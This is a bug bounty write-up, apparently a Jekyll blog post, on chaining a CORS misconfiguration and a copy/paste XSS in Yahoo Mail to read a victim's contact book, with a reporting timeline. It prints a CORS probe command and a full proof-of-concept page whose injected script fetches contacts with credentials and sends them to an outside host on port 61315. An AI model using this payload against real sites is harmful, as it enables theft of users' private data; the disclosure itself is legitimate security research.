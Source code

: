 ```yaml
---
layout: post
title: "Chaining Bugs to Steal Yahoo Contacts!"
---
```

### &#x1F468;&#x1F3FB;&#x200D;&#x1F4BB;&nbsp;Introduction & Background:
This is a write-up of how I chained two vulnerabilities (an XSS and a CORS misconfiguration) that allowed me to steal contacts from a victim's contact book. This data included: names, phone numbers, addresses, etc. 

#### <font color="#129AC8">&#x2717;</font> Cross-Origin-Resource Sharing
> Cross-Origin Resource Sharing (CORS) is a mechanism that uses additional HTTP headers to let a user agent gain permission to access selected resources from a server on a different origin (domain) than the site currently in use.

Browsers enforce the <a href="https://en.wikipedia.org/wiki/Same-origin_policy" rel="noopener noreferrer" target="_blank"><font id="highlighter">Same-Origin Policy</font></a>, meaning that data on a site is only accessible from the same domain and port, unless there is a CORS configuration. This allows data to be shared with other sites.

#### <font color="#129AC8">&#x2717;</font> Cross-Site Scripting:
XSS is a client-side code injection attack that allows an attacker to insert scripts (such as javascript) into a vulnerable application. If you don't know what it is, you should. 
<br><br>

### &#x1F4A3; The Bugs:
#### <i class="fa fa-diamond" style="color:#129AC8" aria-hidden="true"></i> Bug #1: A CORS Misconfiguration in http://proddata.xobni.yahoo.com
I was browsing through various requests made to *.yahoo.com subdomains logged in the "<font id="highlighter2">Target</font>" tab of Burp Suite. I came across the subdomain proddata.xobni.yahoo.com and was intrigued by the name. There were only a few requests logged, but all to the same endpoint: `https://proddata.xobni.yahoo.com/v4/contacts`. This endpoint contains **every** contact you have in your Contact Book via a single `GET` request. I noticed the origin `https://mail.yahoo.com` was being reflected back in the `Access-Control-Allow-Origin` with `Access-Control-Allow-Credentials: true` header. I tried modifying the origin to many different payloads that I thought may work and be reflected, however none were reflected back. I then tried to send a different Yahoo! subdomain as the origin, rather than the `mail.yahoo.com` one. 
```
curl 'https://proddata.xobni.yahoo.com/v4/contacts' -s -H 'Origin: https://hackerone-cdl.yahoo.com' --head
```
Response:
```
Access-Control-Allow-Origin: https://hackerone-cdl.yahoo.com
Access-Control-Allow-Methods: GET,POST,PUT,DELETE,OPTIONS
Access-Control-Allow-Credentials: true

```
It accepted any *.yahoo.com subdomain in the origin and reflected it back in the ACAO with `Allow-Credentials: true`. This meant if I could find an XSS on *.yahoo.com, I could leverage it to steal contacts.  
<br>
#### <i class="fa fa-diamond" style="color:#129AC8" aria-hidden="true"></i> Bug #2: An XSS in Yahoo! Mail
A few days passed and I still hadn't found an XSS. Then I saw a tweet from Enguerran Gillier (<a href="https://twitter.com/opnsec" _target="blank" rel="noopener noreferrer">@opnsec</a>) regarding a wontfix Copy+Paste XSS he had found in Yahoo Mail. I quickly wget'd that POC from his server and edited it to fit my needs. (Turns out after reporting the chained bugs, the XSS <font id="highlighter">wasn't</font> marked as a wontfix and there was some miscommunication, so lucky me!). It required more user-interaction than I had wanted, but I didn't care, I just wanted to chain them and report them as soon as possible. 

### &#x1F4B0; The Grand Finale
This was my proof-of-concept, that required a logged in user to copy any text from this page and paste it into Yahoo Mail. 
```html
<!doctype html>
  <head>
    <title>Yahoo CORS Misconfiguration</title>
  </head>
  <body>
    <h1>Yahoo CORS Misconfiguration</h1>
    <p>Stealing Contact information via CORS Misconfiguration + Yahoo Mail XSS via Copy/Paste</p>
    <h3>Prerequisites :</h3>
    - Tested on Windows 10 with Firefox 56, Chrome 62, Edge<br/>
    <h3>Instructions :</h3>
    1. Select any text in this page and copy it using ctrl-C or right click -> copy <br/>
    <span>Copy status : </span><span id="copied">not copied yet</span> <br/>
    2. Go to Yahoo Mail, compose a new email and paste inside the email body<br/>
    3. All of your contact's information will be sent to my server on port 61315  
  <script>
  document.addEventListener('copy', function(e){
  	e.clipboardData.setData('text/plain', '');
  	e.clipboardData.setData('text/html','<div id="enhancr2_a" class="yahoo-link-enhancr-card">xxx</div><img src="x" onerror="document.write(\'&lt;script&gt;var xhttp=new XMLHttpRequest();xhttp.onreadystatechange = function() {if (this.readyState == 4 && this.status == 200) {document.location=&#x22;http://example.com:61315&#x22;+escape(this.responseText);}};xhttp.open(&#x22;GET&#x22;,&#x22;https://proddata.xobni.yahoo.com/v4/contacts&#x22;,true);xhttp.withCredentials = true;xhttp.send();&lt;/script&gt;\');">');
  	e.preventDefault();
  	document.getElementById("copied").textContent = "SUCCESSFULLY COPIED"
  });
  </script>
```
<br>
Proof-of-Concept Video:<br>
<iframe width="560" height="315" src="https://www.youtube.com/embed/lK23tBEVKxU" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
<br>
<h2><u>Timeline</u></h2>
- (11/8/2017) Reported to Yahoo! via HackerOne
- (11/9/2017) Confirmed & awarded $150 on Triage
- (11/15/2017) Vulnerability Patched
- (12/10/2017) Awarded a $1,850 bounty (making the entire bounty $2,000)
<br><br>This was a fun report for me and I hoped you enjoyed it as well!<br>Thanks for reading,<br><br>
**Corben Leo** (<font color="#E22A3C">@sxcurity</font>)
- https://hackerone.com/cdl
- https://twitter.com/sxcurity
- https://bugcrowd.com/c
- https://github.com/sxcurity
